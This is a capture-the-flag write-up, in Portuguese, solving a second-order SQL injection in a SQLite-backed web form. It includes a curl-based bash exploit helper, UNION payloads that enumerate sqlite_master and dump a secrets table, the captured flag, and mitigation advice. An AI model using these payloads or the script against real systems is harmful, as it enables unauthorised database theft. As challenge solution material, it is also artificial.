

<div align="center">

<a href="https://git.io/typing-svg"></a>

</div>

# Formulaire en Double — WEB · 🔴 DIFFICILE

- **Status:** ✅ RESOLVIDO — Second-order SQL injection (SQLite), `username` relido no status
- **Pontos:** 200 (pontuação dinâmica; 118 solves no momento da resolução)
- **Alvo:** `https://formulaire-en-double.cyberzerk.fr/` (HTTP 8080) — módulo "TRICATEL / PORTAIL RH"
- **Anexo:** `CONNEXION (1).txt` (`formulaire-en-double.cyberzerk.fr (HTTP 8080)`)
- **Enunciado:** *"Inscription puis consultation de statut. `?action=register&username=...` puis `?action=status&id=N`."*
- **Flag:** `CyberZerk{s3c0nd_0rdr3_l3_payl0ad_d0rt_pu1s_s3_r3v31ll3}`

---

## TL;DR

1. `register` grava o `username` com **PDO** (prepared statement) — a inserção é imune a SQLi.
2. `status` **relê** esse nome e o concatena numa 2ª query (`SELECT … WHERE name='<nome>'`) pra exibir o `Rôle:`. A injeção dorme no insert e **acorda** aqui → **second-order**.
3. Payload `zz' UNION SELECT <col>-- -` no `username` sequestra a releitura (1 coluna). Banco é **SQLite**; via `sqlite_master` acho a tabela `secrets(flag)` e dumpo a flag.

## Análise

### Reconhecimento

Dois passos e a dev-note confessando o modelo mental falho:

> *"le nom est inséré proprement (PDO). La page statut **le relit** pour afficher le rôle. Rien à craindre... je crois."*

| Passo | Resposta | Leitura |
|---|---|---|
| `register&username=felipe` | `id=3230` + `?...&t=b378…` | cada registro gera **id e token novos** |
| `status&id=3230&t=b378…` | `Rôle: stagiaire` | o nome é **relido** pra compor o rôle |
| `register&username=felipe'` → status | *(vazio)* | a aspa desbalanceia a 2ª query → **concatenação confirmada** |

### O bug: second-order SQLi

A inserção usa PDO, então a aspa é **armazenada literalmente**, sem executar nada — daí a falsa sensação de segurança ("inséré proprement"). O furo é que o `status` pega o valor **já gravado** e o costura numa query montada por concatenação:

```sql
-- register (seguro):  INSERT INTO users(name) VALUES (?)   ← PDO, parametrizado
-- status   (furado):  SELECT role FROM users WHERE name='<name_relido>'   ← string concat
```

Como o payload só detona na **segunda** vez em que o dado é usado (a releitura), nenhum filtro/escape do insert ajuda. É o padrão "o payload dorme, depois se reveilla" — literalmente o nome da flag.



### Exploração

Como o `id`+`token` mudam a cada registro, um helper fecha o ciclo **register → captura id/token → status** de uma vez:

```bash
H=https://formulaire-en-double.cyberzerk.fr
probe(){
  resp=$(curl -s -G "$H/" --data-urlencode "action=register" --data-urlencode "username=$1")
  id=$(printf '%s' "$resp"  | grep -oP 'id=\K[0-9]+'    | head -1)
  tok=$(printf '%s' "$resp" | grep -oP 't=\K[0-9a-f]+'  | head -1)
  curl -s -G "$H/" --data-urlencode "action=status" --data-urlencode "id=$id" --data-urlencode "t=$tok" \
    | grep -oP '(?<=<pre>)[^<]*'
}
```

Trilha (nome-base falso `zz'` pra só a linha UNION aparecer; `-- -` comenta o resto):

| Passo | Payload (`username`) | `Rôle:` |
|---|---|---|
| colunas | `zz' UNION SELECT 'M1'-- -` | `M1` → **1 coluna**, refletida |
| dialeto | `zz' UNION SELECT @@version-- -` | *(vazio)* → não é MySQL |
| dialeto | `zz' UNION SELECT sqlite_version()-- -` | `3.46.1` → **SQLite** |
| tabelas | `zz' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table'-- -` | `users,sqlite_sequence,secrets` |
| schema | `zz' UNION SELECT sql FROM sqlite_master WHERE name='secrets'-- -` | `CREATE TABLE secrets(flag TEXT)` |
| **dump** | `zz' UNION SELECT flag FROM secrets-- -` | **a flag** |

```
CyberZerk{s3c0nd_0rdr3_l3_payl0ad_d0rt_pu1s_s3_r3v31ll3}
```

## O que não funcionou

| Hipótese / tropeço | Resultado | Por quê |
|---|---|---|
| sqlmap `--second-order` (plano inicial) | ✗ (abandonado) | `--second-order` relê uma **URL fixa**; aqui cada register devolve `id`+`token` novos, então o sqlmap leria um registro velho. Manual com o `probe()` é mais limpo que domar o sqlmap com `--eval` |
| `@@version` + `information_schema` | ✗ (vazio) | não existem em SQLite — o vazio foi o **sinal** de dialeto; pivot pra `sqlite_version()` / `sqlite_master` |
| UNION com 2–3 colunas | ✗ (erro) | a query relida tem **1 coluna**; só o UNION de 1 coluna casa |

## Conclusão

Second-order SQLi clássica: "parametrizei a inserção, logo estou seguro" ignora que o **mesmo dado** é reusado numa segunda query montada por concatenação. PDO protege o ponto onde foi aplicado, não o reuso posterior. O trabalho foi confirmar a releitura (aspa), achar o dialeto pelo que **faltava** (SQLite) e dumpar via `sqlite_master`.

**Mitigação:** parametrizar **toda** query que toca o dado, inclusive a releitura do status (`WHERE name = ?`) — nunca concatenar valor vindo do banco. Reforço: tratar dado lido do próprio DB como não-confiável (o insumo pode ter sido plantado), e dar ao status uma coluna `role` própria em vez de recomputá-la a partir do nome.

---

## Apêndice — exploit

```bash
H=https://formulaire-en-double.cyberzerk.fr
probe(){
  resp=$(curl -s -G "$H/" --data-urlencode "action=register" --data-urlencode "username=$1")
  id=$(printf '%s' "$resp"  | grep -oP 'id=\K[0-9]+'   | head -1)
  tok=$(printf '%s' "$resp" | grep -oP 't=\K[0-9a-f]+' | head -1)
  curl -s -G "$H/" --data-urlencode "action=status" --data-urlencode "id=$id" --data-urlencode "t=$tok" \
    | grep -oP '(?<=<pre>)[^<]*'
}
probe "zz' UNION SELECT flag FROM secrets-- -"
```
